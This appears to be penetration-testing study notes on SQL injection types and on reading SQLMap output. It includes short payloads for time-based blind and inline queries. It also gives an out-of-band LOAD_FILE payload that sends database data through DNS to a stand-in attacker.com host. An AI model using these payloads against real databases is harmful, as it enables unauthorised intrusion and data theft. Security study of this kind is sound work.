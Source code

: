## Time-based blind SQL Injection
- `AND 1=IF(2>1,SLEEP(5),0)`
- The principle of Time-based blind SQL Injection is similar to the Boolean-based blind SQL Injection, but here the response time is used as the source for the differentiation between TRUE or FALSE.
    - TRUE response is generally characterized by the noticeable difference in the response time compared to the regular server response
    - FALSE response should result in a response time indistinguishable from regular response times
- Considerably slower than the boolean-based blind SQLi, since queries resulting in TRUE would delay the server response. This SQLi type is used in cases where Boolean-based blind SQL Injection is not applicable. 

## Inline Queries
- `SELECT (SELECT @@version) from`
- This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.

## Out-of-band SQL Injection
- `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`
- This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.

## SQLMap Output Descriptions
### URL content is stable
- "target URL content is stable"
This means that there are no major changes between responses in case of continuous identical requests. This is important from the automation point of view since, in the event of stable responses, it is easier to spot differences caused by the potential SQLi attempts. While stability is important, SQLMap has advanced mechanisms to automatically remove the potential "noise" that could come from potentially unstable targets.

### Parameter appears to be dynamic
- "GET parameter 'id' appears to be dynamic"
It is always desired for the tested parameter to be "dynamic," as it is a sign that any changes made to its value would result in a change in the response; hence the parameter may be linked to a database. In case the output is "static" and does not change, it could be an indicator that the value of the tested parameter is not processed by the target, at least in the current context.

### Parameter might be injectable
- "heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')"
As discussed before, DBMS errors are a good indication of the potential SQLi. In this case, there was a MySQL error when SQLMap sends an intentionally invalid value was used (e.g. ?id=1",)..).))'), which indicates that the tested parameter could be SQLi injectable and that the target could be MySQL. It should be noted that this is not proof of SQLi, but just an indication that the detection mechanism has to be proven in the subsequent run.
